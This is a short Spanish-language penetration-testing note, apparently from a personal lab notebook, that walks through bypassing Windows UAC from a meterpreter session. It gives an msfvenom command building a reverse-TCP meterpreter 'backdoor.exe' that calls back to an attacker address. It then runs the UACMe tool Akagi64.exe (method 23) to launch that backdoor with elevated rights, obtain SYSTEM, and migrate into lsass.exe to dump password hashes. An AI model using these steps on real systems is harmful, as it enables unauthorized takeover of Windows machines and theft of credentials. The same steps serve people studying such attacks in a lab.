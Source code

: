 Supongamos que estamos dentro de una sesión de meterpreter de una máquina Windows:
![[Pasted image 20230731085818.png]]
Y queremos ejecutar el comando getsystem, donde veremos que nos da error porque ha saltado el UAC:
![[Pasted image 20230731085852.png]]
Por tanto, el primer paso será generar el payload con msfvenom en formato .exe, para pasárselo a la herramienta que usaremos más tarde:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
```
![[Pasted image 20230731090017.png]]
Y ahora subimos este payload como también la herramienta para hacer el bypass llamada Akagi64.exe, ubicándonos en /temp porque allí tenemos permisos de escritura:
![[Pasted image 20230731092903.png]]
![[Pasted image 20230731090056.png]]
Una vez hecho esto, nos pondremos otra vez en escucha con metasploit para recibir esta nueva conexión:
![[Pasted image 20230731090306.png]]
Y ahora desde la otra sesión de meterpreter, ejecutamos el Akagi64.exe pasándole la backdoor.exe que hemos subido anteriormente:
```bash
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```
Recibimos la conexión y ahora sí podemos ejecutar el comando getsystem:
![[Pasted image 20230731090426.png]]
Y también podemos migrarnos al proceso lsass.exe para dumpear hashes:
![[Pasted image 20230731090942.png]]
![[Pasted image 20230731090952.png]]
